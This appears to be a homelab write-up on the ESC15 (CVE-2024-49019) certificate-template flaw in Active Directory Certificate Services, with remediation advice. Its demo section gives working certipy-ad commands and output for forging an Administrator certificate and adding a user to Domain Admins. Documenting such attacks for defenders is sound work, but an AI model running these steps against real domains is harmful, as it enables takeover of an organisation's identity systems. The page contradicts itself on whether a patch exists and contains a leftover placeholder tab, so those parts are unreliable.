


This vulnerability has been patched. https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019

## Background

Although many organizations rely on an **Active Directory Certificate Services (AD CS)** PKI (Public Key Infrastructure) as an anchor for their identities, there are a plethora of AD CS PKI vulnerabilities that can lead to security breaches. Well-known privilege escalation paths in AD CS are referred to as ESCs. In early October 2024, ESC15, also known as EKUwu, was discovered and demonstrated. Companies utilizing an out-of-the-box AD CS PKI configuration can allow a direct path for an attacker to become any identity with any Enhanced Key Usage (Application Policy) value, compromising systems that trust the Certificate Authority (CA) from which those certificates are issued, most notably Active Directory Domain Services.

## How Does ESC15 Work?

The demonstrated attack works by requesting a certificate from a V1 certificate template that allows the enrollee to supply their own Subject. An example attack would call for the attacker to enroll for a certificate from a vulnerable template, specify an arbitrary application policy (such as `Client Authentication`), and specify an arbitrary identity with elevated privileges (such as a Domain Admin). From there, the CA issues a certificate to the requester that allows them to complete authentication as a Domain Admin.

## Why Does the ESC15 Vulnerability Work?

AD CS PKIs leverage a feature called Application Policies, a certificate extension used by AD CS to “stamp” a certificate with its intended use case. This feature is useful to ensure that a certificate is used only for its intended purpose. This is similar to the concept of Extended Key Usage. The issue arises when Windows devices, including member servers and domain controllers, check the Application Policies extension first and only fall back on Extended Key Usage (EKU) values when no Application Policy is defined. If an attacker is allowed to stamp arbitrary Application Policies and Subjects on a certificate request, they can effectively become any principal they choose, even from a low privileged user. This is especially problematic because this is how some default AD CS PKI templates are configured.

## How to Check for Vulnerable Certificate Templates in Your AD CS PKI

The ESC15 attack requires three things to be present on a single certificate template.

1. The attacker must have **Enroll** permissions for the template, as shown in the screenshot below.
    

2. The template must allow **Subject Name** to be **Supplied in the request**, as shown in the screenshot below.
    

3. The template has a schema version of **1**, as shown in the screenshot below.
    


## Demo

In this demo, we have comprmised a low privileged user Jenny Rice whose userName is admjrice. She is a member of Server Administrator group which has Enroll Permission on the certificate template called **WebServer**. This template has a schema version of **1**.

First, I am going to enumerate the vulnerable certificates using `certipy-ad` with `-vulnerable` flag.

```shell
certipy-ad find -vulnerable -u admjrice -p Welcome@123 -dc-host dc01.alpha.lab -ns 172.17.1.100 -stdout
```

In the output, we find the template WebServer vulnerable to ESC15. There is also a remark "Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.".

```
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : Alpha-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-06-23T05:45:44+00:00
    Template Last Modified              : 2025-06-25T04:57:37+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : ALPHA.LAB\Server Administrators
                                          ALPHA.LAB\Domain Admins
                                          ALPHA.LAB\Enterprise Admins
      Object Control Permissions
        Owner                           : ALPHA.LAB\Enterprise Admins
        Full Control Principals         : ALPHA.LAB\Domain Admins
                                          ALPHA.LAB\Enterprise Admins
        Write Owner Principals          : ALPHA.LAB\Domain Admins
                                          ALPHA.LAB\Enterprise Admins
        Write Dacl Principals           : ALPHA.LAB\Domain Admins
                                          ALPHA.LAB\Enterprise Admins
        Write Property Enroll           : ALPHA.LAB\Domain Admins
                                          ALPHA.LAB\Enterprise Admins
    [+] User Enrollable Principals      : ALPHA.LAB\Server Administrators
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```


import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

<Tabs>
  <TabItem value="ESC1" label="ESC1" default>
**Request Certificate**

```shell
certipy-ad req -ca Alpha-CA -template "WebServer" -u admjrice -p Welcome@123 -dc-host dc01.alpha.lab -upn "Administrator@alpha.lab" -application-policies 'Client Authentication'
```

Output

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 6
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@alpha.lab'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx
```

**Use Certificate for LDAP Shell Access**

```shell
certipy-ad auth -pfx administrator.pfx -ldap-shell -dc-ip 172.17.1.100
```

**Add User to Domain Admins Group**


`add_user_to_group admjrice "Domain Admins`

```shell
┌──(elodvk㉿kali)-[~/homelab]
└─$ certipy-ad auth -pfx administrator.pfx -ldap-shell -dc-ip 172.17.1.100
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@alpha.lab'
[*] Connecting to 'ldaps://172.17.1.100:636'
[*] Authenticated to '172.17.1.100' as: 'u:ALPHA\\Administrator'
Type help for list of commands

# add_user_to_group admjrice "Domain Admins"
Adding user: Jenny Rice to group Domain Admins result: OK
```

  </TabItem>
  <TabItem value="ESC3" label="ESC3">
    This is an orange 🍊
  </TabItem>
</Tabs>


## How Can I Remediate ESC15?

1. **Do not use (unpublish) default (V1) templates:** It is a best practice not to use the default configuration for certificate templates. The ESC15 exploitation only impacts schema version 1 templates. As soon as a template is duplicated, it increments a schema version and becomes much more customizable. Duplicate and publish required templates as needed while unpublishing all V1 templates. When building a new AD CS PKI, leverage a `CAPolicy.inf` file and specify:

    `LoadDefaultTemplates=False`

2. **Do not enable the Supplied in the request option:** Supplied in the request (and SAN abuse in general) is an extremely common attack vector. If Supplied in the Request must be used, it should be in conjunction with CA manager approval. There should never be a situation in which a client tells the CA who it is, and the CA blindly trusts the requester. You cannot adjust this value on V1 templates using the GUI. The templates must be duplicated, and the V1 templates must be unpublished.

3. **Adjust Template Access Control Lists (ACLs) to remove Enroll rights:** Enroll permission is required for the exploit to work. It is possible to redefine the permissions on the template to remove non-privileged groups from Enroll permissions. This does not remediate the actual issue but can be used to quickly reduce the number of identities that could leverage the exploit.

## Conclusion
Although there is not currently a Microsoft patch to remediate ESC15, the steps required to prevent abuse are straightforward. This is another example of “vanilla” AD CS configurations becoming victims of game-ending exploits that allows bad actors to become privileged users easily.